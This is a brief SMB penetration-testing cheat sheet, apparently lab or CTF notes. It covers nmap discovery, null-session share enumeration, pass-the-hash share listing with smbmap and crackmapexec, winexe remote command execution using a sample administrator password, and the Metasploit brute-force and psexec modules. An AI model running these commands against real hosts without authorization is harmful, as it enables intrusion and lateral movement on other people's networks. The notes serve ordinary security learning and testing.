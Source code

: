## Nmap discovery

Nmap can be used to identify hosts running SMB service

```sh
nmap -p 445 10.10.5.0/24
nmap -p 445 --script=smb-protocols 10.10.5.0/24
````

## Mount a shared folder

```sh
mount -t cifs //x.x.x.x/share /mnt/share
mount -t cifs -o "username=user,password=password" //x.x.x.x/share /mnt/share
````


## Brute force login with Metasploit


module: auxiliary/scanner/smb/smb_login


#### The following methods attempt to initiate a null session, require no username or password

```sh
enum4linux 10.10.5.15


crackmapexec smb <IP> -u '' -p '' --shares


# list the shares
smbclient -L \\\\10.10.15.5
smbcleint -N -L \\\\10.10.15.5

# browse the shares
smbclient \\\\10.10.15.5\\share_name
smbclient -N \\\\10.10.15.15\\share_name


smbmap -H <IP> [-P <PORT>]
```






#### The following methods require a username and password


## winexe
This method will get command execution
```sh
winexe -U administrator%alice_123321 //10.4.16.28 'whoami'
````



These methods will enumerate shares

```sh

#If you omit the pwd, it will be prompted. With --pw-nt-hash, the pwd provided is the NT hash
smbclient -U 'username[%passwd]' -L [--pw-nt-hash] //<IP> 

#Guest user
crackmapexec smb <IP> -u 'username' -p 'password' --shares 
crackmapexec smb <IP> -u 'username' -H '<HASH>' --shares 

smbmap -u "username" -p "password" -H <IP> [-P <PORT>] #Creds
smbmap -u "username" -p "<NT>:<LM>" -H <IP> [-P <PORT>] #Pass-the-Hash
#List with smbmap, without folder it list everything
smbmap [-u "username" -p "password"] -R [Folder] -H <IP> [-P <PORT>] # Recursive list
smbmap [-u "username" -p "password"] -r [Folder] -H <IP> [-P <PORT>] # Non-Recursive list
smbmap -u "username" -p "<NT>:<LM>" [-r/-R] [Folder] -H <IP> [-P <PORT>] #Pass-the-Hash
````


## PSExec

PSExec with Metasploit


module: exploit/windows/smb/psexec
